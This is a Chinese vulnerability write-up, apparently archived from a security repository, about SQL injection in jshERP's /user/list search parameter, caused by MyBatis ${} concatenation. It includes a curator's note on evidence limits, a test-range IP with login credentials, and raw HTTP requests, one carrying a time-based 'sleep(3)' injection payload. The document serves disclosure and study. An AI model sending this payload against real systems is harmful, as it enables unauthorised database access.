








# 华夏/jshERP user/list search SQL 注入

## 条目说明

- 对象与具体问题：华夏/jshERP；user/list search SQLi
- 版本、配置及部署条件：无tag/commit，MyBatis动态拼接
- 认证与权限前提：示例登录Cookie
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 源码来源网盘无版本，调用链图未视检；${}与参数绑定根因清楚但应补代码文本
- currentPage被HTML实体转坏为¤tPage，HTTP需修
- 靶场说明不等当前许可
- 缺修复build/最小角色

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/o-lmJHCaCiEqfdG1e_L3Lg)

测试靶场

<table cellspacing="0" cellpadding="0"><tbody><tr><td width="132" valign="top"><p>靶场地址</p></td><td width="421" colspan="2" valign="top"><p>http://47.116.69.14</p></td></tr><tr><td width="132" valign="top"><p>账户密码</p></td><td width="210" valign="top"><p><strong>jsh</strong></p></td><td width="210" valign="top"><p><strong>123456</strong></p></td></tr></tbody></table>

**1、描述**

  

华夏 ERP 基于 SpringBoot 框架和 SaaS 模式，可以算作是国内人气比较高的一款 ERP 项目，但经过源码审计发现其存在多个漏洞，本篇为 SQL 注入漏洞解析。

  

  

  

  

  

**2、影响范围**

  

华夏 ERP  

  

  

  

  

  

**3、漏洞复现**

  

从开源项目本地搭建来进行审计，源码下载地址：

百度网盘 https://pan.baidu.com/s/1jlild9uyGdQ7H2yaMx76zw  提取码: 814g  

  

  

  

  

  

漏洞复现：

1、漏洞代码位置

```
src/main/resources/mapper_xml/UserMapperEx.xml
```



使用 mybatis 时 ${} 会对参数和 sql 语句进行拼接，因而存在 sql 注入漏洞

2、漏洞验证  

正常查询  



```http
GET /user/list?search=%7B%22userName%22%3A%22%22%2C%22loginName%22%3A%22q%22%2C%22offset%22%3A%221%22%2C%22rows%22%3A%221%22%7D¤tPage=1&pageSize=10&t=1615274773529 HTTP/1.1
Host: 47.116.69.14
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://47.116.69.14/pages/manage/user.html
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1615274745; JSESSIONID=C5EBD91E0E68081AA25F206F2FECAC82; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1615274770
```

使用 sleep 延时注入



```http
GET /user/list?search=%7B%22userName%22%3A%22'and+sleep(3)--%22%2C%22loginName%22%3A%22q%22%2C%22offset%22%3A%221%22%2C%22rows%22%3A%221%22%7D¤tPage=1&pageSize=10&t=1615274773529 HTTP/1.1
Host: 47.116.69.14
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://47.116.69.14/pages/manage/user.html
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1615274745; JSESSIONID=C5EBD91E0E68081AA25F206F2FECAC82; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1615274770
```

3、漏洞代码

src/main/java/com/jsh/erp/controller/ResourceController.java



src/main/java/com/jsh/erp/service/CommonQueryManager.java



src/main/java/com/jsh/erp/service/user/UserComponent.java



src/main/java/com/jsh/erp/service/user/UserService.java



src/main/resources/mapper_xml/UserMapperEx.xml



  


扫取二维码获取

更多精彩


Qingy 之安全  


公众号


点个在看你最好看

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
